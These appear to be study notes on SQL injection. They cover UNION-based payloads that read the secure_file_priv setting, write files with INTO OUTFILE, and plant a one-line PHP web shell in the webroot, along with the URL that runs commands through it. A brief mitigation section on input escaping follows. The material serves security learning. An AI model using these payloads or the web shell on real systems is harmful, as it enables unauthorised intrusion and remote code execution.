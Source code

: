 - **Purpose**: Determines where files can be read/written from.
- **Query**:
  ```sql
  SHOW VARIABLES LIKE 'secure_file_priv';
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
  ```

#### SELECT INTO OUTFILE

- **Purpose**: Write data from `SELECT` queries into files.
- **Example**: Exporting data from a table to a file.
  ```sql
  SELECT * FROM users INTO OUTFILE '/tmp/credentials';
  ```
- **Writing a String to a File**:
  ```sql
  SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
  ```

#### Writing Files through SQL Injection

- **Example**: Writing a text file to the webroot.
  ```sql
  SELECT 'file written successfully!' INTO OUTFILE '/var/www/html/proof.txt';
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION SELECT 1,'file written successfully!',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -
  ```

#### Writing a Web Shell

- **Purpose**: Execute commands on the back-end server.
- **PHP Web Shell Code**:
  ```php
  <?php system($_REQUEST[0]); ?>
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
  ```
- **Executing Commands via Web Shell**:
  - URL: `http://SERVER_IP:PORT/shell.php?0=id`
  - **Output**: Displays the result of the `id` command, confirming code execution.

---

# Mitigating SQL Injection

#### Input Sanitization
- **Purpose**: Escape special characters to prevent injection.
- **Example**:
  ```php
  $username = mysqli_real_escape_string($conn, $_POST['username']);
  $password = mysqli_real_escape_string($conn, $_POST['password']);
  
  $query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
  ```
